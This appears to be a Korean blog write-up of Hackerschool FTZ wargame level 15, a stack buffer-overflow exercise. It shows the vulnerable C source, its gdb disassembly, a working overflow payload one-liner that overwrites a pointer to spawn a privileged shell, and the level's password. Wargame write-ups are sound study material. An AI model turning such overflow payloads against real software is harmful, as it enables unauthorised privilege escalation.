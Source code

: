 ```yaml
---
date: '2022-10-05'
before : '2022-10-04'
after : '2022-10-06'
title: '시스템 해킹(11) : 해커스쿨 FTZ 레벨 15'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

BOF문제인데, int *check 포인터가 0xdeadbeef를 가리킨다면 쉘 코드를 실행시켜주는 식이다. 소스코드를 보면서 시작하자.


### 1. Level 15

```
#include <stdio.h> 
main(){
     int crap;  
     int *check; 
      char buf[20];  
     fgets(buf,45,stdin);  
     if (*check==0xdeadbeef)   
        {     setreuid(3096,3096);    
              system("/bin/sh");  
              }
    }
```

대충 요런식이다. gdb를 이용해서  disassemble 해보자.
```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d4
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   mov    eax,DWORD PTR [ebp-16] // 16 -12 pointer
0x080483e2 <main+42>:   cmp    DWORD PTR [eax],0xdeadbeef
0x080483e8 <main+48>:   jne    0x804840f <main+87>
0x080483ea <main+50>:   sub    esp,0x8
0x080483ed <main+53>:   push   0xc18
0x080483f2 <main+58>:   push   0xc18
0x080483f7 <main+63>:   call   0x80482f8 <setreuid>
0x080483fc <main+68>:   add    esp,0x10
0x080483ff <main+71>:   sub    esp,0xc
```
ebp-56 위치에 buf 배열이 마무리되고, ebp-16지점에 


단, 우리는 deadbeef의 메모리 주소값을 알아내어야 한다. 이를 위해선 gdb에서 x/20x를 해보면 된다. 노가다를 뛰면서 일일히 값을 입력하다보면 딱 0xdeadbeef가 나오는 주소를 발견하는데,

```
0x80484b2
```
라는걸 확인할 수 있다. 그럼 단순히 저 값을 bof 공격을 통해 check 포인터에 넣어주면 된다.
```
 (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
```
단순하다고 할 수 있는 문제였던 것 같다.

비밀번호 : about to cause mass

---
## Source

- 해커스쿨 FTZ
- Me!
